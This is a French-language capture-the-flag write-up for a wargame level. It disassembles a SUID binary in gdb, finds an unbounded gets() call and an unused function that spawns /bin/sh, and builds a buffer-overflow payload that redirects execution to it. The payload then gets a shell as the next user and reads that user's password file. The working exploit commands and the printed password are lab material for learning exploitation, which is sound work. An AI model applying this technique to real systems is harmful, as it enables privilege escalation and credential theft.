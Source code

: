 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home avec les droits SUID.

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 80 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+9> ... <+16>
      - Stocke l'adresse de esp + 16 dans eax
      - Stocke la valeur de eax (l'adresse de esp + 16) dans la stack (à esp)
      - Call gets() avec le paramètre stocké dans la stack<br/><br/>
    - <+21> ... <+22>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - Le call a gets() n'est pas protégé par une condition
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```asm
    Dump of assembler code for function run:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,ds:0x80497c0
       0x0804844f <+11>:	mov    edx,eax
       0x08048451 <+13>:	mov    eax,0x8048570
       0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
       0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
       0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
       0x0804846a <+38>:	mov    DWORD PTR [esp],eax
       0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
       0x08048479 <+53>:	call   0x8048360 <system@plt>
       0x0804847e <+58>:	leave
       0x0804847f <+59>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+6> ... <+41>
      - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax, puis dans edx
        - `x/s 0x80497c0`
          - `0x80497c0 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur à l'adresse 0x8048570 dans eax
        - `x/s 0x8048570`
          - `0x8048570:	 "Good... Wait what?\n"`
      - Stocke la valeur de edx (stdout) dans la stack (à esp + 12)
      - Stocke 0x13 (19) dans la stack (à esp + 8)
      - Stocke 0x1 (1) dans la stack (à esp + 4)
      - Stocke la valeur de eax dans la stack (à esp)
      - Call fwrite() avec les arguments stockés dans la stack<br/><br/>
    - <+46> ... <+53>
      - Stocke la valeur à l'adresse 0x8048584 dans la stack (à esp)
        - `x/s 0x8048584`
          - `0x8048584:	 "/bin/sh"`
      - Call system() avec l'argument stocké dans la stack<br/><br/>
    - <+58> ... <+59>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction run affiche "Good... Wait what?\n" sur la sortie standard et lance un shell via la commande system()

## Exploit

- L'objectif va être de forcer l'appel de la fonction run() par la fonction main() pour avoir notre shell.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `run < /tmp/exploit`
      ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a: `0x61616161`

- On devrait pouvoir écraser la valeur de l'eip avec les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
    Starting program: /home/user/level1/level1 < /tmp/exploit

    Program received signal SIGSEGV, Segmentation fault.
    0x62626262 in ?? ()
    ```
    - Parfait, l'EIP est écrasé par les 4 derniers octets: `0x62626262`
- On a vu lors de l'analyse que l'adresse de la fonction run() est 0x08048444, on la passe en [little endian](https://security.stackexchange.com/questions/177819/why-do-we-use-little-endian-in-buffer-overflow-attacks) avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
    Good... Wait what?
    Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run(), mais le shell est fermé tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input, when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
        Good... Wait what?
        
        ```
        - `whoami`
          ```
          level2
          ```
          - `cat /home/user/level2/.pass`
            ```
            53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
            ```
